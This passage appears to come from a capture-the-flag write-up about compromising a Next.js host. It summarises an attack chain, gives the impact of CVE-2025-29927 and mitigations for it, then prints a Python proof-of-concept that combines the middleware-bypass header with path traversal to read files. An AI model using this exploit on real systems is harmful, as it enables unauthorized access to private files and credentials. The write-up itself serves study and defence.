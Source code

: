 4. **LFI Exploitation**: Leveraged `/api/download` for local file inclusion
    
5. **Credential Discovery**: Extracted hardcoded credentials from Next.js configuration
    
6. **Initial Access**: SSH authentication with discovered credentials
    
7. **Privilege Escalation**: Terraform provider override with sudo privileges
    

### Security Implications

#### CVE-2025-29927 Impact

* **Severity**: High (CVSS likely 8.0+)
    
* **Affected Versions**: Next.js &lt; 13.5.9, 14.2.25, 15.2.3
    
* **Attack Vector**: Network (Remote)
    
* **Authentication Required**: None
    
* **User Interaction**: None
    

#### Mitigation Strategies

**For CVE-2025-29927:**

1. **Immediate**: Update Next.js to patched versions
    
2. **Temporary**: Filter requests containing `x-middleware-subrequest` header
    
3. **Architecture**: Use platforms like Vercel that aren't affected
    
4. **Monitoring**: Log and alert on suspicious header usage
    

**For Terraform Privilege Escalation:**

1. **Sudo Configuration**: Avoid `!env_reset` with sensitive commands
    
2. **Path Control**: Maintain strict PATH controls
    
3. **Provider Security**: Validate Terraform provider sources
    
4. **Least Privilege**: Limit sudo permissions to specific operations
    

### Code Exploits

#### Authentication Bypass Exploit

```python
#!/usr/bin/env python3
import requests
import sys

def exploit_nextjs_auth_bypass(target_url, file_path):
    """
    Exploit CVE-2025-29927 Next.js authentication bypass
    """
    headers = {
        'X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware'
    }
    
    payload = f"../../../../{file_path}"
    url = f"{target_url}/api/download?example={payload}"
    
    try:
        response = requests.get(url, headers=headers, timeout=10)
        if response.status_code == 200:
            return response.text
        else:
            return f"Error: HTTP {response.status_code}"
```
